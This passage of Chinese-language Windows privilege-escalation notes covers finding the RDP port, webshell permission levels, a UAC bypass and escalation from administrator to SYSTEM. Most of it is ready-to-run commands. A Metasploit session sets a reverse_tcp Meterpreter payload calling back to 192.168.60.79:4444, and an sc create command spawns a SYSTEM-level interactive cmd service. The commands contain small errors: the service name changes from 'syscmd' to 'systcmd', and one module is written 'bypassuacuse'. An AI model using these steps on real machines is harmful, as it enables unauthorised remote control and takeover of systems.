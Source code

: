 ```bash
REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber ——获取远程端口
tasklist /svc | find "TermService" + netstat -ano ——获取远程端口
```

## 0x03 常见webshell权限

```
ASP/PHP 匿名权限
ASPX user权限
jsp 通常是系统权限
```

## 0x04 UAC 绕过提权

> UAC（User Account Control）
> 通过 UAC，应用程序和任务可始终在非管理员帐户的安全上下文中运行，除非管理员特别授予管理员级别的系统访问权限。
> 当获得的权限是**属于管理员组**的时候但是**并不是administrator这个用户**，此时就可能需要我们进行绕过UAC的操作，否则虽然是管理员组但是实际上并没有管理员所对应的高权限操作,这个时候就需要bypass uac。

exp：

```bash
use exploit/windows/local/ask

meterpreter > background  [*] Backgrounding session 1... 
msf5 exploit(multi/handler) > use exploit/windows/local/ask 
msf5 exploit(windows/local/ask) > set session 1 
msf5 exploit(windows/local/ask) > set lhost 192.168.60.79 
msf5 exploit(windows/local/ask) > set lport 4444 
msf5 exploit(windows/local/ask) > set payload windows/meterpreter/reverse_tcp 
msf5 exploit(windows/local/ask) > set technique exe 
msf5 exploit(windows/local/ask) > exploit 

其他exp:
use exploit/windows/local/bypassuacuse
exploit/windows/local/bypassuac
```

## 0x05 利用SC将administrator提权至system

> SC 是用于与服务控制管理器和服务进行通信的命令行程序。提供的功能类似于“控制面板”中“管理工具”项中的“服务”

```bash
sc create syscmd binPath= “cmd /K start” type= own type= interact
sc start systcmd
```

> 创建本身就需要管理员权限
>
> 创建一个名叫syscmd的新的交互式的cmd服务
> 然后执行`sc start systcmd`，就得到了一个system权限的cmd环境
